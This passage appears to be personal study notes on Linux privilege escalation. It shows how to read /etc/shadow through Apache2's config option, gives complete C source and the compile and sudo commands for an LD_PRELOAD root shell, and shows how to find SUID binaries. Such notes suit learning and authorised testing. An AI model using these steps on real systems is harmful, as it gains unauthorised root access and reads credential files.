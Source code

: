 ### Leverage application functions
In some applications we would be able to use certain functions of those applications to not only be able to escalate but also read, write or execute certain programs which normally we wouldn't have access. 
One example is the **Apache2 server**. We can leverage an option of the application (`-f file`) that supports loading alternative config files. When loading a file such as `/etc/shadow` it will result in an error message that includes the first line of the file.

### Leverage LD_PRELOAD
On some systems, we may see the `LD_PRELOAD` environment option when doing `sudo -l`. This is a function that allows any program to use shared libraries. If the `env_keep `option is enabled we can generate a shared library which will be loaded and executed before the program is run. Note that the `LD_PRELOAD` option will be ignored if the real user ID is different from the effective user ID. For a sick blog post with explanation and stuff pls refer to [sick blog post.](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) 
A quick step guide to do this goes as follows:
- Check for LD_PRELOAD (with the env_keep option)
- Write a simple C code compiled as a share object (.so) file
- Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

An example of a simple C code to gain root can be:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
We can then save this code with a .c extension and compile it using `gcc` into a shared object file using the following
```sh
gcc -fPIC -shared shell.c -nostartfiles -o shell.so
```
Finally we can use this shared object when launching any program our user can run with sudo, we just need to run the program by specifying the LD_PRELOAD option as follows:
```sh
sudo LD_PRELOAD=/path/to/file/shell.so COMMAND
```
This will result in a shell spawn with root privileges

## SUID
Much of linux privilege controls rely on controlling the users and files interactions. These privilege levels change with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
These files have an "s" bit set showing their special permission level, we can find them with
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```
will list files that have SUID or SGID bits set. 
A good practice would be to compare executables on this list with [GTFObins](https://gtfobins.github.io/) and filtering by SUID so it only shows binaries known to be exploitable when the SUID bit is set.
